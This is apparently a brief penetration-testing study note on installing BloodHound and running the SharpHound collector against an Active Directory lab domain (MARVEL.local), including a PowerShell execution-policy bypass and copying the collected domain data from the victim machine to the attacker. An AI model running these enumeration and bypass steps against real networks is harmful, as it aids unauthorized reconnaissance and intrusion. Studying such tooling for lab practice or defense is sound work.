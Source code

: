 ```sh
# Install BloodHound
> sudo apt install bloodhound

> neo4j console
# Open the remove interface in browser
# Change default credetial from : neo4j // neo4j

# In new terminal tab
> bloodhound

# Login to bllodhound in browser using changed credential
```

## Invoke Bloodhound
Invoke Bloodhound is used in powershell
Can use sharphound written in C# or a script written in python.

Copy the invoke bloodhound file from git and save in victim windows machine.
script: https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1

```sh

# Navigate to script folder in cmd of victim windows machine
> powershell -ep bypass
> . \sharpHound.ps1
# there wont be much response
> Invoke-BloodHound -CollectionMethod All -Domain <domainname: MARVEL.local> -ZipFileName <filename: file.zip>

# Move the zip file from victim machine to attacker machine.
```